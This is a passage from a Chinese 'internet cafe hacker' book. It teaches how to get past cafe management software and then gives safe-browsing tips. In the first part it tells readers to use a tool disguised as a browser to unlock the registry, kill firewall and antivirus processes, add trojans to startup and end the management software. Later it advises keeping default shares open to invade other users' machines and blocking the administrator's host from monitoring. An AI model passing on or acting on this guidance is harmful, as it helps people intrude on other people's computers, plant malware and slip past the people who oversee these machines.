要想在网吧里兴风作浪，最基本的条件就是能查看硬盘中文件的大小，也就是摸清自己电脑的基本状况。虽然有的网吧将硬盘分区、系统桌面或注册表等重要项目统统封锁，然而并非密不透风，简单几个软件就能够出卖它。

WINRAR 是最经典的硬盘文件浏览工具，在网吧里它可以成为一款查看硬盘文件的利器。运行 WINRAR，点击菜单“文件”，使用“切换驱动器”和“浏览文件夹”命令就可以浏览指定的硬盘分区了。只要能进入硬盘，那么突破网吧的限制就容易得多了。

以 WINRAR 为例，在 WINRAR 主菜单里选择“改变驱动器”进入系统安装盘，如图 5.61，“WINDOWS\system”目录下，找到“显示桌面.scf”文件双击运行，系统就会从网吧管理软件界面还原为大家熟悉的 WINDOWS XP 界面。同样方法找到“programfiles\commonfiles\MicrosoftShared\MSINFO”目录下的“msinfo32.exe”并运行，就可以打开“系统配置实用程序”并修改系统的启动文件和配置文件。

查看硬盘里的文件或者简单操控硬盘都是简单的热身运动。难度不大，而且网吧硬盘上一般都是“光秃秃”的，可玩的东西也很少。所以更多的软件要求我们自己去下载、安装，不过要想在严密封锁的网吧自由下载软件，就非得掌握一定技巧不可。比如我们可以使用聊天软件玩下载，就是因为现在的聊天软件都有自己的网络硬盘，事先把自己要用到的工具传上去做好准备，然后到网吧里再打开下载使用。QQ、UC 都可以做到这点。其次也可以利用浏览器，比如 TT 浏览器。运行 TT，在工具条上点击“下载”，就会弹出“旋风下载”对话框，如图 5.62，使用 TT 浏览器时，在下载连接上点击也会弹出。是不是可以正常下载了？此外有的网吧里还安装多种浏览器，比如有的网吧里安装有“马克思 IE”就很不错。这里就不多介绍了。

解决了硬盘问题，又解决了下载限制。可以随意地下载及安装软件了。网吧的电脑也就与普通电脑没什么区别了，操控权已经掌握在我们的手中。下面我们就找几款有效的工具软件，让网吧限制土崩瓦解。“行者无疆”是最简单的网吧破解利器，它可以解除常见网吧绝大多数的功能锁定，比如注册表、IE 选项、组策略、系统服务和命令提示。最让我放心的是它将自己的界面伪装成一个 IE 浏览器，迷惑性相当强。网吧管理员巡查时根本查不出来，有了它我可以轻松地玩转网吧了。

##### 1. 解锁注册表

大部分网管软件的本质就是修改注册表，达到限制各种功能的目的。因此解锁注册表是网吧中非常重要的一步。点击“行者无疆”→“浏览器设置”→“注册表项”→打开注册表设置工具，如图 5.63。在这里可以解锁大部分的注册表限制，包括 IE 右键菜单，如图 5.64。允许从 IE 访问硬盘，运行注册表编辑器等。

##### 2. 解锁其他控制项

注册表解锁后，可以从浏览器中打开硬盘及进行下载和程序安装操作了。点“行者无疆”浏览器设置→超级设置→启动设置。打开启动设置功能对话框，在窗口中间的列表里显示了当前随机启动的进程，如图 5.65。可以对启动程序进行管理，非常方便。在网吧中安装一些木马程序，例如可以使用“删除”功能结束防火墙和杀毒软件进程，利用“新增”功能添加木马随时启动等。

此外对于网吧系统中保护最严密的“控制面板”，也提供了破解办法，点击窗口工具栏上的“控制面板”按钮，如图 5.66，就可以打开控制面板设置选项，可以看到被管理软件隐藏的各种设置项目，在相应的项目前面打勾选择即可，如图 5.67。

##### 3. 结束网吧管理软件

上面介绍方法操作都很简单，然而不是在任何环境下都绝对有效的。如果真遇到这种情况，则必须使用一个很毒的计策了。网吧之所以能对我们进行各种限制，其实就是它有个管理软件，但倘若我们结束了它的管理软件进程，它不就没办法了吗？在“行者无疆”浏览器中点菜单“系统”——“任务管理器”就可以打开已经隐藏的任务管理器窗口，从中找到管理软件的进程，然后直接结束就可以了，如图 5.68。

## 第6章 网吧安全上网

网络连着你我他，网络安全靠大家；  
网络安全为人民，网络安全靠人民。

早在第 1 章对网吧的环境分析我们就提出了这样的一个观点：网吧不是一个安全的上网场所。网吧黑客所面临的还有一个敌人——网管。网管同网吧黑客天生仇敌，见面就打，不是拼个你死就是杀个我亡（好像有点夸张哦！）。不过为了网吧的网络安全和网吧的利益，网管也会小心提防那些不正经的上网者；如果你想在网吧中搞破坏，或是免费上网，被他们抓住了可没有好果子吃。而且我们还要小心网吧会被人种马，如果一不小心中了招，自己的 QQ、邮箱就要易主了。为了自己的 QQ、邮箱你也要打起二十万分的精神，警觉地上网。

网吧上完网后，习惯地刷卡走人，也有警觉的那么几个人会关机走人。不过这样并不安全，因为你在上网的过程中，系统会记录你的一些信息，例如 COOKIES 信息等，还有你的上网习惯、浏览网页的历史记录等。在没有打扫干净这些东西之前就匆匆离去，若是被别有用心者搞到的话，你的许多秘密就落入人手了。

怎样才能安安全全地在网吧上网呢？这正是本章要讨论的问题。

### 6.1 隐藏IP

隐藏 IP，好处很多，简单概括起来有两点：一是在上网的时候防止被人入侵、攻击；其次是加快打开网页的速度。当然，大多数人隐藏 IP 的最主要目的是加强系统的安全性，免受攻击。

一般我们泄漏 IP 地址的软件就是腾讯的 QQ。下面我们来利用“Socks Cap32”和“QQ 代理公布器 2005”来实现 QQ 隐藏真实 IP 之目的。

看我的操作：

- 1. 运行“QQ 代理公布器 2005”主程序“QQProxy.exe”打开其程序主界面，选择代理类型（注：在 QQ 代理公布器 2005 中提供两种代理类型：HTTP 代理和 Socks Version 5 代理）。
- 2. 点击“读取数据”，过上一小会儿，就可以显示出从网络上读取的代理了。图 6.1 和图 6.2 是我分别用 QQ 代理公布器 2005 读取的 Socks Version 5 代理和 HTTP 代理。
- 3. 接下来运行 SocksCap32，选“新建”（图 6.3），将 QQ 添加到我们的任务中。

“New Application Profile”对话框输入 QQ 的相关数据，确定（图 6.4），回到主界面。

- 4. 再点击“文件 | 设置”（图 6.5）。打开“SocksCap Settings”对话框中进行各项设置。在“Socks 服务器”中填入刚才在“QQ 代理公布器 2005”中读取的有效代理的 IP 和端口。在“协议”中选择“Socks 版本 5（5）”，并在“支持的验证方式”下勾选“用户名/密码”。点击“确定”（图 6.6），在弹出的“Socks 用户名/密码验证”对话框中输入用户名和密码后确定，再回到 SocksCap32 的程序主界面。
- 5. 选中添加的 QQ 程序，点“运行”（图 6.8 运行图标）。如果代理有效，稍后会打开 QQ。登录后 QQ 显示的将不再是真实 IP；若不能登录则说明代理服务器不可用。

服务器响应慢，这时只要再选择一个响应速度较快的代理 IP 即可。其实代理软件有很多，像 multiproxy V1.2 就是一款性能十分优良的代理软件。选择使用 multiproxy 的原因：

- 1. 免去一个个代理试验的麻烦，同时自动调用大把的代理，自动选择最快路径；
- 2. 免去搜寻和测试代理的步骤。

网站不定时提供大量代理供测试和使用，连格式都是排列好的，你所需做的只是 ctrlc+ctrlv。每次启动时都可以自动测试每个代理的速度、匿名性、稳定性。不就无需自己用代理猎手苦苦搜寻测试了吗？

### 最初调试只有三步：

浏览器“工具”→“Internet 选项”→“连接”（拨号用户选择“设置”，局域网用户选择“局域网”）点选“使用代理服务器”，地址栏填 127.0.0.1，端口填 8088（这个 8088 是可以改变的，原因方法后面再说），multiproxy 设置选项里连接端口设置为 8088。

### 详细的设置：

程序的主界面如图 6.9，点其右边的“选项”打开“选项”对话框（图 6.10）。“接受连接的端口”8088 是默认选项，可以改变，但是必须和浏览器中设置同时更改。用 80、8080、9090 等等都可以，在内网的网友注意不要选择被网管封闭的端口。最大同时连接数 15 足矣，那是软件实际工作最高值。缺省超时选为 30 比较好。“连接由”选第一项，因为只有匿名代理使用比较方便。右上角四个选项，选中第一个，其余三个随意，第一个是开机测速，这点很重要。“选择下一个服务器”不选择“随机服务器”，因为它连不能使用的 Proxy 也选择；不选择“下一个可用的服务器”，因为不保证它的速度最快；更没有可能选择“每 XX 秒轮换一次”，因为这不切合实际。最好选择“下一个最快的可用服务器”。

代理服务器列表页面如图 6.11，左边有一圆点代表 Proxy 的状态。绿色表示可以用，红色代表连不通。主机名——Proxy 的域名；ping——从你的机器连接 Proxy 的时间，数值越小，代表越快，这是每个老玩 diablo 和 cs 的朋友最关心的了；工作中——代表这个 Proxy 是否 work；匿名——表示这个 Proxy 是否可以匿名进入，建议删掉不匿名的。

右键单击一个代理地址，出现快捷菜单（如图 6.12）。各个选项的功能如下：启用——启用 MultiProxy 使用这个 Proxy。禁用——禁用 MultiProxy 使用这个 Proxy。测试匿名——测试这个 Proxy 是否可以匿名登录。测试 URL——你可以输入一个 URL，看看这个 Proxy 能不能访问到。强制有效——强制把一些不能使用的 Proxy 设置为允许，如果可以确保这个 Proxy 是可以用的话，请选择这个。添加——添加一些你自己找回来的 Proxy。编辑——编辑这个 Proxy。删除——删除这个 Proxy。代理列表——这里已经设置了一些条件，让你管理 Proxy，这是最重要的。文件——让你导入和导出列表里面的 Proxy。快速测试——查找在你的列表里面的 Proxy 哪一个是最快的，并排序。

最后简要说明一下全部使用步骤：下载并安装 multiproxy，设置其参数及浏览器参数，从 multiproxy 网站获取匿名代理名单存为代理列表，并开始检测，第一次时间很长，好几百上千的代理检测后，在选项里去掉不匿名、不工作项，留下绿色点的、匿名的代理，保存代理名单。在以后每次开机检测中去掉不好用的，并保留名单，这样不出一周，代理数就会减到几十个，不过这可都是长期工作、速度飞快的好代理了。注意：你并不是时时刻刻都需要代理，不要的时候，在浏览器里关掉通过代理选项即可。

如果你觉得上面的方法还是比较复杂，那么我向大家推荐一款适合网络新手的“网络新手 IP 隐藏器 V1.1”。该软件运用 HTTP 代理服务器原理，可以隐藏网络新手在论坛、留言本、计数器、WEB 聊天室、网页等以及登录网站发信件时留下的真实 IP 地址。中文界面，简单易懂，具有“一键代理”的感觉，并且可以随时在线查询最新代理服务器，还可以查询 QQ 代理服务器（QQ 上隐藏 IP 用），特别适合于网络新手上网时隐藏自己的 IP 时使用。

程序主界面如图 6.13，使用代理服务器之前请先测试代理的速度。在代理服务器 IP／端口中填入相关数据就可以点“开始测试”来测试代理的速度。这样我们就可以选择速度比较快的代理了。测试完毕，点“使用代理”开始使用代理。如果想关闭代理，就点击“关闭代理”。此外我们还可以通过该程序查找最新的代理服务器。

### 6.2 限制和关闭不需要的端口

端口是计算机和外部网络相连的逻辑接口，也是计算机的第一道屏障，所以端口配置正确与否直接影响到主机的安全。而且一般的非法入侵方式中，通过扫描端口方式攻击主机的情况也最多。因此我们只要看好自己的端口大门，也就相对比较安全了。在网吧中只要限制一些比较危险的端口，一般就比较安全了，至少被攻击的可能性大大减少。下面介绍一下限制端口的方法。

#### 6.2.1 删除不需要的协议

在配置系统协议时，不需要的协议可以统统删除。对于服务器和主机，一般只需要安装 TCP/IP 协议就够了。对于那些自己用不到的或者很危险的协议我们还是将其删除或卸载的好。

卸载网络协议的方法：鼠标右击“网络邻居”，选择属性（图 6.14），打开“网络连接对话框”，再用鼠标右击上面的“本地连接”，选择“属性”（图 6.15）打开“本地连接属性”对话框（图 6.16）。在此对话框中可以设置各网络连接组件、协议，当然也包括卸载协议。

下表列出了易受踩点攻击的 WINDOWS 2000 服务：

| 端口 | 服务 |
|---|---|
| TCP53 | DNS 区域传输 |
| UDP137 | NETBIOS 名称服务（NBNS） |
| TCP139 | NETBIOS 会话服务（NETBIOS 上的 SMB） |
| TCP445 | TCP 上的 SMB（DIRECT HOST） |
| UDP161 | SNMP 简单网络管理协议 |
| TCP/UDP389 | 轻量级目录访问协议（LDAP） |
| TCP/UDP3268 | 全局编录服务 |

假设通过踩点和扫描还没有发现进攻的直接方法，攻击者将会转向寻找目标的一些细节信息，包括有效的账户名称或者保护不好的资源共享。可见，NETBIOS 是多么危险，NETBIOS 是很多安全缺陷的泉源。对于不需要文件和打印共享的主机，可以将绑定在 TCP/IP 协议上的 NETBIOS 给关闭，避免攻击者针对 NETBIOS 的攻击。关闭方法：由上面打开“本地连接属性”对话框，选择 INTERNET 协议（TCP/IP），点击“属性”（图 6.17）再点击“高级”（图 6.18），进入“高级 TCP/IP 设置”对话框，选择“WINS”标签，选中“禁用 TCP/IP 上的 NETBIOS”项（图 6.19），关闭 NETBIOS。

#### 6.2.2 利用 TCP/IP 筛选

对于 WINDOWS 2000 或 XP 的用户来说，不需要安装任何其他软件，仅利用系统自带的 TCP/IP 筛选这项小功能即可轻松完成对端口的限制。

具体设置如下：

- 1. 鼠标右击“网上邻居｜属性｜本地连接”，弹出本地连接属性对话框。
- 2. 选择“此连接使用下列选定的组件”列表中的 INTERNET 协议（TCP/IP），然后点击“属性”按钮。
- 3. 在弹出的 INTERNET 协议（TCP/IP）对话框中点击“高级”按钮，弹出“高级 TCP/IP 设置”对话框，选择进入“选项”标签，选择“TCP/IP 筛选”，然后点击“属性”按钮（图 6.20）。
- 4. 在弹出的“TCP/IP 筛选”对话框中选中“启用 TCP/IP 筛选”的复选框，然后把左边的“TCP 端口”上的“只允许”选上（图 6.21）。

这样就可以实现仅自身需要的端口才允许开放了，添加或者删除完毕，重新启动机器之后，服务器就被保护起来了。

#### 6.2.3 IPSEC 安全策略

“我的电脑”｜“控制面板”｜“管理工具”｜“本地安全策略”｜“IP 安全策略”，在本地机器”（图6.22）在这里定义符合你需要的安全策略规则。  
图6.22

### 6.3 Cookies 安全

Cookies 是一种能够让网站服务器把数据存储到客户端的硬盘或内存，或是由客户端的硬盘读取数据的一种技术。Cookies 是：当你浏览某网站时，由 Web 服务器置于你硬盘上的一个非常小的文本文件。它可以记录你用户的 ID、密码、浏览过的网页、停留的时间等信息。当你再次来到该网站时，网站通过读取 Cookies，得知你的相关信息，就可以做出相应的动作。

Cookies 的应用，网站管理员一般达到以下几个目的：

- 通过 Cookies，网站管理员能够精确地知道有多少人浏览过网站。
- 了解用户的喜好。
- 在“电子商务”站点中，实现像“购物篮”等功能。

不过，这 Cookies 的内容虽然有些是加密处理过的，但是也绝非十分安全。恶意的别有用心者也能通过非法获取你的 Cookies 信息，进而窃取你的各种重要密码，如邮箱、银行账户的密码。

如何防范 Cookies 泄密呢？IE 6.0 为我们提供了更为可靠的个人隐私及安全保护措施，可以让用户来控制浏览器向外发送信息的多少。在“Internet 选项”窗口中新增了“隐私”选项卡，用户可以在其中直接设置浏览时的隐私级别，按需要控制其他站点对自己机器所使用的 Cookies。如果我们正在浏览的站点使用了 Cookies，那么在浏览器状态栏会有一个黄色惊叹号的标记。双击后即可打开“隐私报告”对话框，用户可以在其中查看具体的隐私策略，还可直接点击“设置”按钮后在上述“隐私”选项卡中调节安全隐私级别。在常规选项卡中还增加了“删除 Cookies”按钮，方便用户直接清除本机上的 Cookies。另外在“工具｜选项｜高级”选项也增加了一些进一步提高安全性的选项（如关闭浏览器时清空 Internet 临时文件）。对于以内存形式保存的 Cookies，我们可以按以下方法清除：运行 regedit，找到如下键值 `HKEY_LOCAL_MACHINE\SOFTWARE\INTERNET SETTINGS\CACHE\SPECIAL PATHS\COOKIES`，这是 Cookies 在内存中的键值，把这个键删除。至此 Cookies 无论以文本形式还是存储在内存中，我们都已将其清除干净了，可以高枕无忧了。

### 6.4 删除共享

我们知道 Windows 2000/XP 系统存在默认共享，这些默认共享是绝对的安全隐患，所以我们要删掉它们。

#### 方法一：用命令

首先在 CMD 下输入 `NET SHARE` 查看一下我们开放的共享资源，再用 `NET SHARE *$ /DEL`（* 是开放的共享文件夹）。也可建个 BAT 文件，源码如下：

```bat
@ECHO OFF
NET SHARE C$ /DEL
NET SHARE D$ /DEL
NET SHARE IPC$ /DEL
NET SHARE ADMIN$ /DEL
```

不用担心，用此方法重启后，共享又会重新开放。我们在网吧上网冲浪时，在保护自己安全的同时，也可以利用默认共享来入侵别人，而且我们的机子是在我们使用过程中才删除共享的。

#### 方法二：右键“停止法”

到“计算机管理”窗口中某个共享项（比如 C$）上右键单击，选择“停止共享”，并确认后就会关闭这个共享，在它下面的共享小手图标也会随之消失。重复几次就将本机的所有共享都停止了。此法同方法一差不多，机器重启的话，这些共享又会恢复。

#### 方法三：停止服务法

还是到“计算机管理”窗口中，单击展开左侧的“服务和应用程序”并选中其中的“服务”。此时右侧就列出了所有服务项目。共享服务对应的服务名称是“Server”（在进程中的名称为 Services），找到后双击它，在弹出的“常规”标签把“启动类型”由原来的“自动”更改为“已禁用”。然后单击下面“服务状态”的“停止”按钮，再确认一下就 OK 了。

#### 方法四：注册表改键值法

执行“开始｜运行”输入 `regedit`，确定后打开注册表编辑器。找到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters` 项，双击右侧的 `AutoShareServer` 项，将键值由 1 改为 0。这样就能关闭硬盘各分区的共享。如果没有 `AutoShareServer` 项，可自己新建一个再改键值。然后还是在这一窗口下再找到 `AutoShareWks` 项，也把键值由 1 改为 0，关闭 ADMIN$ 共享。最后到 `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` 项处找 `restrictanonymous`，将键值设为 1，关闭 IPC$ 共享。本法须重启机器，但一经改动就永久停止共享。在网吧不推荐大家用，因为我们还要用默认共享来入侵别人的机器。

### 6.5 QQ 聊天记录安全

在网吧上网，机器不可能固定，聊天记录只能保存在机器上，下一个来上网的人很有可能偷窥你的聊天记录，所以我们在离开时必须清除聊天记录。

#### 方法一

找到 QQ 安装目录，一般为：`C:\PROGRAM FILES\TENCENT\QQ\你的QQ号码`。将你的号码目录全部删除，这样别人也就不能查看到你的聊天记录了。也可以启用 QQ 消息本地加密，设置密码。方法：打开 QQ 的“安全设置——本地信息安全”窗口，在“启用聊天记录加密”打勾，就可以设置加密密码了。

### 方法二：“爱Q精灵”

使用爱Q精灵，你可以简单方便地备份和取回您的个人设置、好友分组、聊天记录、QQ备忘录，想备份什么就备份什么，想取回什么就取回什么。软件使用流程如下：启动软件后自动找到 QQ 目录（如果没找到需要手动选择）。

- 备份 QQ 记录：输入你的帐号密码，选择“备份QQ记录到邮箱”，点“下一步”，选择需要备份的 QQ 记录，再点“下一步”，记录被保存到你的邮箱。
- 取回 QQ 记录：输入你的帐号密码，选择“从邮箱取回QQ记录”，点“下一步”，选择需要取回的 QQ 记录，再点“下一步”，记录就被取回。

图6.23

如果你是第一次使用爱Q精灵，先启动爱Q精灵看看它的界面吧（图6.23），是不是很像 QQ 呢？使用爱Q精灵必须先注册你的 QQ 号码，填写一些必要的信息。  
图6.24

点“新用户申请”就可以注册新的帐号。如果你已经注册了自己的 QQ 号码，可以直接看第二部分“使用”。使用爱Q精灵需要首先注册成为“注册用户”，填写一些必要的信息后点“申请帐号”，无误就会显示申请成功。让我们看看这些信息应该怎么填：

### 1. 帐号信息（图6.24）

- **您的帐号**：你的帐号必须使用你想要保存记录的 QQ 号码，一个 QQ 号码对应一个帐号，可不要写错了啊。
- **您的密码**：你的帐号对应的密码，可不要忘记了。
- **确认密码**：把帐号对应的密码再输一次。
- **您的邮箱**：填写你平时使用的个人邮箱。
- **推荐人**：推荐人可以写你的好朋友啦，推荐人成为正式用户可以享受优惠。

### 2. 备份邮箱设置（图6.25）

- **备份邮箱**：这个邮箱是用来专门备份个人 QQ 资料的邮箱，强烈建议大家专门申请一个邮箱来备份 QQ 资料。
- **邮箱密码**：输入你备份邮箱的密码。
- **POP3 服务器**：您的备份邮箱的 POP3 取信服务器地址（大部分服务器都可以自动识别）。
- **SMTP 服务器**：我们默认使用特快专递的邮件发送技术，SMTP 服务器作为备份发送服务器。
- **申请新邮箱**：这个大家一般不用，因为现在谁没有几个免费的邮箱啊！

### 3. 设置上传／下载数据（图6.26）

选择你想要上传或者下载的数据，成功后会弹出一个对话框提示你“新用户申请成功”；如果这个 QQ 号码已经被注册过了，也会提示你“这个号码已被注册”。

我们现在回到第一个登录界面。现在假设我们已经成功注册了自己的 QQ 号码，在“用户名”中输入注册过的 QQ 号码，“密码”中输入这个帐号的密码，同时选择是备份还是取回 QQ 记录（图6.27），然后点“下一步”。爱Q精灵就会连接到服务器，检查你是否已经注册过了。如果验证没有什么错误，就会进入下一个界面“用户资料”。爱Q精灵会自动查找机器上 QQ 的文件夹，如果没有找到，点“...”手动设置 QQ 文件夹。其他信息以前注册时已经填写过了。  
图6.27

现在注册时填写的信息都从服务器读回了。如果你想修改自己的设置，点“修改资料”，就会弹出“注册用户个人设置”对话框（图6.28）。用户个人设置界面和注册时界面很相似，只不过现在用户不能修改自己的帐号和推荐人的 QQ 号码。检查你的设置是否正确，如果进行了修改，点“保存设置”，就可以把新的信息保存到服务器上。

保存设置或者退出，回到“用户资料”界面，检查输入都没有什么问题，就可以点“下一步”。爱Q精灵就会按照你的设置把 QQ 资料上传到邮箱里或者下载到当前的 QQ 目录中。

操作完成后会进入第三个界面，恭喜你的操作成功（图6.29）。你的 QQ 记录已经如愿地上传到网上（或者下载到 QQ 目录下），点启动 QQ 就会自动关闭爱Q精灵并且启动 QQ。  
图6.28  
图6.29

### 6.6 天网防火墙

网吧中的人群复杂，难保没有网络高手。如果真是这样，我们就有可能遇到被人入侵、攻击的可能性。而且我们网吧黑客在进行网吧破解的时候，也不希望被别人（网管）监控。我们既要保证没有人攻击我们，还要使自己入侵、破解行为不被发觉。

网络防火墙可以有效地拦截一些来历不明的故意访问，同时能拦截木马程序的恶意连接。网络防火墙使我们上网更安全。基于安全目的，我们网吧黑客也要选择适合自己的防火墙来武装自己，提高自己的防御能力。下面以天网防火墙为例说明如何防止入侵和监控。程序的主界面为图6.30。

### 1. 设置“自定义IP规则”

在开始本规则设置的时候，首先需要查看已有的 IP 规则，具体步骤如下：首先单击如图6.31的按钮，将会看到弹出的“自定义IP规则”界面（图6.32）。

2. 在该界面的列表框中，只要单击其中的一项，如“IP规则”项，在列表框下面将出现该规则的描述。

新建一条 IP 规则的步骤：

- 首先单击增加规则按钮（图6.33），之后将会弹出“IP规则修改”对话框，在这个对话框中就可以设定规则的具体内容了。
- 在“规则”框中“名称”后输入规则名称，然后再在说明处输入规则描述。
- 再在“对方IP地址”的下拉列表框中，选择规则实施对象的 IP 地址，我们选择“指定地址”项。
- 当然了，我们可以选择“任何地址”或“局域网网络地址”来对任何 IP 地址或局域网中的所有计算机实施这个规则。
- 在满足上面条件时，在“选项”中设置当满足此规则条件时计算机做出的反应，如“拦截并记录”。图6.34和图6.35分别为我建的禁止 445 端口和防冰河木马的 IP 规则。

好了，我们可以构建一个这样的新规则，假定网吧主机的 IP 为 192.168.1.152。

- 规则名称：防止网管监控
- 说明：禁止 192.168.1.152 的访问，连 PING 也不行。

#### 3. 日志功能的使用

图6.35

- 单击“日志”（图6.36）按钮，进入日志界面（图6.37），这里记录着本机被网络访问的情况。通过查看日志，如果怀疑有人试图对本机进行攻击时，可以单击按钮断开网络后慢慢查找原因。可疑原因排除后，即可恢复网络连接。

图6.36  
图6.37

#### 4. 应用程序网络端口的监控

通过此功能我们可以查看当前所有网络应用程序的状态。  
图6.38

- 单击“应用程序网络端口的监控”按钮（图6.38），就可以进入“应用程序网络状态”，在该界面中显示了所有被允许使用网络的应用程序及其当前状态。
- 运行一个新的程序的时候，会弹出“天网防火墙 警告信息”对话框。
- 如果我们在选中了“该应用程序以后都按这次的操作运行”复选框后，单击“允许”按钮，则回到“应用程序网络状态”界面，然后在其中选择“全部协议”。这时候就可以看到出现了如图的界面，从中就可以看到我们刚刚加入的程序正在被“天网防火墙”监听（图6.39）。

在这里可以监控某程序使用的端口，如果你发现某个应用程序监控的端口值得怀疑，可以直接选中该程序，点击按钮结束该进程。

- 设置“应用程序访问网络权限”。

在主窗口中单击“应用程序访问网络权限”按钮（如图6.40），出现“应用程序规则……”的窗口。在这个窗口里面可以设置是否允许程序访问网络资源，共有 3 种方式：允许、提示、禁止。

利用应用程序访问网络权限设置功能，我们就可以有效地防范木马程序。因为网络应用程序第一次访问网络时，都会弹出警告信息提示框，所以当木马服务端程序运行时，会自动弹出警告信息对话框，只有我们允许了，它才能访问网络。通过利用这种方法就可以很容易检测到自己运行的程序是否被绑定了木马程序；如果是木马连接，则可以选中“该应用程序以后都按这次的操作运行”复选框后，再点击“禁止”按钮，让该木马服务端程序不能对我们的机器进行远程控制。通过应用程序访问网络权限和对应用程序网络端口的监控，发现了木马，现在该把木马清除，打扫战场了。

### 6.7 下网之后

网吧上网之后打扫战场。

IE——网吧多用微软捆绑在系统中的 IE 作为浏览器。打开 IE，点“工具”菜单中的“Internet 选项”，在进入 IE 的设置窗口后，在常规标签中点击“删除 Cookies”“删除文件”及“清除历史记录”（图6.41）。随后选择上方的“内容”标签，在其中选择“自动完成”按钮，在随后出现的窗口中点击“清除表单”和“清除密码”按钮，将已经保存下来的关键字、用户名及密码清除（图6.42）。

删除浏览过的文档记录及临时文件，因为这些文件说不定会有你的小秘密哦！

在当前用户的主目录中记录着（我使用的用户名是 admin），打开“我的电脑”将路径切换到 `C:\DOCUMENTS AND SETTINGS\admin\LOCAL SETTINGS\TEMP`，将这个目录下的文件全部选中，然后删除。上一步完成后将路径切换到 `C:\DOCUMENTS AND SETTINGS\admin\RECENT` 下，同样全选删除即可。